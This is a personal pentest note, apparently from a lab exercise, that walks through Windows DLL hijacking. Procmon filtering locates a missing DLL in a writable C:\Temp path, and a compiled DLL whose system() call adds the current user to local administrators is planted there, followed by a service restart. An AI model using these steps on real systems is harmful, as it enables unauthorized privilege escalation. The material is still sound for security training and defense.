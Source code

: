 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

**Detection**

try http://github.com/sensepost/rattler

---
Show DLL's tied to specific exe.
```command prompt - target
tasklist /m | findstr "nvcontainer.exe"
```


Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  

In procmon, select ‘Result’.  

In the input box on the same line type: 

```procmon - windows
NAME NOT FOUND  
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’.


In procmon, select ‘Path’.  
In procmon, select ‘ends with'.  

In the input box on the same line type: 

```procmon - windows
.dll 
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’, and lastly on ‘OK’.  

Open command prompt and type: 

```command prompt - target
sc start dllsvc  
```

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

We have 2 results show up, 1 on "Program Files" and 1 in Temp.

![[Pasted image 20220207150415.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_dll.c` to the Kali VM.

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file hijackme.dll, to the Windows target.

Place hijackme.dll in ‘C:\Temp’.  

Open command prompt and type: 

```command prompt - windows
sc stop dllsvc & sc start dllsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
